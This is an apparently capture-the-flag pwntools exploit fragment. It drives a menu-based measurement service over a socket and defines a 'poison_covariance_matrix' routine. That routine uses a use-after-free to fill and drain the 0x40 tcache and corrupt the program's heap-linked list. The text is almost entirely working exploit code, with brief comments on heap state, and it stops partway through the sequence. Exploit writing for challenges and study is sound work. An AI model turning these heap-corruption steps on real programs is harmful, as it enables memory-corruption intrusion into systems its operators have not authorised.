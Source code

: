 ```python
    r.sendline(b"1")
    r.recvuntil(b"Time (US)>\n")
    r.sendline(time)
    r.recvuntil(b"X>\n")
    r.sendline(x)
    r.recvuntil(b"Y>\n")
    r.sendline(y)
    r.recvuntil(b"Z>\n")
    r.sendline(z)
    r.recvuntil(b"Choice>\n")

def remove_first_measurement():
    r.sendline(b"2")
    r.recvuntil(b"Choice>\n")

def remove_last_measurement():
    r.sendline(b"3")
    r.recvuntil(b"Choice>\n")

def list_measurements():
    measurements = []
    r.sendline(b"4")
    data = r.recvuntil(b"Choice>\n")
    for l in data.split(b"\n"):
        if not b"Raw Measurement" in l:
            continue
        print(l)
        data = l.split(b":")[1].strip().split(b" ")
        print(data)
        measurements.append([int(data[0])] + [float(x) for x in data[1:]])
    return measurements


def poison_covariance_matrix(heap_start):
    # first add will overewrite the UAFd head, so we are good
    add_measurement(0x4141414141414141, 0, 0, 0)
    # A <-> A (6 elements in 0x40 tcache)

    for i in range(8):
        add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
    for _ in range(8):
        remove_last_measurement()
    # A <-> A (0x40 tcache full)

    remove_first_measurement()
    # NULL <-> A (free)

    for i in range(7):
        add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
    # now tcache is empty
    add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
    # NULL <-> A <-> ... (7) ... <-> A

    for i in range(7):
        add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
    # NULL <-> A <-> ... (7) ... <-> A <-> ... (7)

    for i in range(7):
        remove_last_measurement()
    # (tcache 0x40 full)
    # NULL <-> A <-> ... (7) ... <-> A

    remove_last_measurement()
```